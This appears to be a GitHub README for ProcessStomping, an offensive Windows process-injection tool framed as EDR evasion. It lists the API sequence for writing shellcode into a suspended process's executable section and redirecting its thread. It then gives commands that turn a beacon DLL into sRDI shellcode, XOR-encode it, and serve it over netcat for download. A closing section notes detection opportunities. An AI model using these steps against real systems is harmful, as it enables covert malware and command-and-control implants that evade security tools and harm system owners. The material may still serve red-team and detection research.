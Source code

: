 # ProcessStomping
A variation of ProcessOverwriting to execute shellcode on an executable's section

[![Twitter](https://img.shields.io/twitter/follow/naksyn?label=naksyn&style=social)](https://twitter.com/intent/follow?screen_name=naksyn)

# What is it

For a more detailed explanation you can read my [blog post](https://www.naksyn.com/edr%20evasion/2023/11/18/mockingjay-revisited-process-stomping-srdi-beacon.html)

Process Stomping, is a variation of [hasherezade’s Process Overwriting](https://github.com/hasherezade/process_overwriting) and it has the advantage of writing a shellcode payload on a targeted section instead of writing a whole PE payload over the hosting process address space.

These are the main steps of the ProcessStomping technique:

 1. **CreateProcess** - setting the Process Creation Flag to CREATE_SUSPENDED (0x00000004) in order to suspend the processes primary thread.
 2. **WriteProcessMemory** - used to write each malicious shellcode to the target process section.
 3. **SetThreadContext** - used to point the entrypoint to a new code section that it has written.
 4. **ResumeThread** - self-explanatory.

As an example application of the technique, the PoC can be used with [sRDI](https://github.com/monoxgas/sRDI) to load a beacon dll over an executable RWX section. The following picture describes the steps involved.

![immagine](https://github.com/naksyn/ProcessStomping/assets/59816245/cbc488c4-79ef-4779-9373-8f137b8e97f1)



# Disclaimer

All information and content is provided for educational purposes only. Follow instructions at your own risk. Neither the author nor his employer are responsible for any direct or consequential damage or loss arising from any person or organization.

# Credits

This work has been made possible because of the knowledge and tools shared by Aleksandra Doniec @[hasherezade](https://twitter.com/hasherezade) and [Nick Landers](https://twitter.com/monoxgas).

# Usage

Select your target process and modify global variables accordingly in ProcessStomping.cpp.

Compile the sRDI project making sure that the offset is enough to jump over your generated sRDI shellcode blob and then update the sRDI tools:

`cd \sRDI-master`

`python .\lib\Python\EncodeBlobs.py .\`

Generate a Reflective-Loaderless dll payload of your choice and then generate sRDI shellcode blob:

`python .\lib\Python\ConvertToShellcode.py -b -f "changethedefault" .\noRLx86.dll`

The shellcode blob can then be xored with a key-word and downloaded using a simple socket 

`python xor.py noRLx86.bin noRLx86_enc.bin Bangarang`

Deliver the xored blob upon connection

`nc -vv -l -k -p 8000 -w 30 < noRLx86_enc.bin`

The sRDI blob will get erased after execution to remove unneeded artifacts.


### Demo



https://github.com/naksyn/ProcessStomping/assets/59816245/8d9e1ac2-b47c-41d5-9f0e-1b3fee14ba50



# Caveats

To successfully execute this technique you should select the right target process and use a dll payload that doesn't come with a User Defined Reflective loader.

# Detection opportunities

Process Stomping technique requires starting the target process in a suspended state, changing the thread's entry point, and then resuming the thread to execute the injected shellcode. These are operations that might be considered suspicious if performed in quick succession and could lead to increased scrutiny by some security solutions.
